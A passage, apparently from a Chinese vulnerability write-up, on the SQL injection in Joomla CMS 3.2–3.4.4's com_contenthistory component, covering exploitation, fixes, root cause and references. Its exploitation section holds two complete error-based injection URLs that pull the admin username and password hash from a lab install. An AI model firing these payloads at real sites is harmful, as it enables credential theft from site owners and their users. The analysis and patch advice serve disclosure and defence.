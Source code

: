![](http://static.wooyun.org//drops/20151026/2015102603113434189112.jpg)

_2.漏洞利用_

因为在 SQL 语句拼接时，程序框架针对每个 `from` 或者 `where` 操作进行了换行处理，所以这里并不能使用 `#`、`\--`等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的 `item_id` 和 `type_id`参数值必须于数据库中有效，同时传递 `list[ordering]` 参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用`item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中 `#_` 最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

> http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1from (select count(_),concat((select username from %23__users limit0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)

![](http://static.wooyun.org//drops/20151026/201510260313109957323.jpg)

> http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from(select count(_),concat((select password from %23__users limit0,1),floor(rand(0)_2)) from information_schema.tables group by 2)x)

![](http://static.wooyun.org//drops/20151026/201510260314099861138.jpg)

# 0x03 修复方案

* * *

  1. 从 <https://github.com/joomla/joomla-cms/releases> 获取最新版本进行重新安装；
  2. 从 <https://github.com/joomla/joomla-cms/releases> 下载相应版本的补丁程序进行升级；

# 0x04 总结

* * *

就 Joomla CMS 的用户量来看，目前还有大量的站点的数据正受到该漏洞的威胁。该漏洞的产生本质上是由于访问控制的缺失和过滤不严格造成。访问控制的缺失导致本应只有管理员才能进行访问和加载的 `contenthistory`组件能够被任意用户访问和加载，而参数的过滤不严格，导致攻击者能够构造出恶意的参数到执行流中产生注入。

# 0x05 参考

  * <http://www.sebug.net/vuldb/ssvid-89680>
  * <https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html>
  * <https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/>

原文地址：<http://blog.knownsec.com/2015/10/joomla-cms-3-2-3-4-4-sql-injection-vulnerability/>

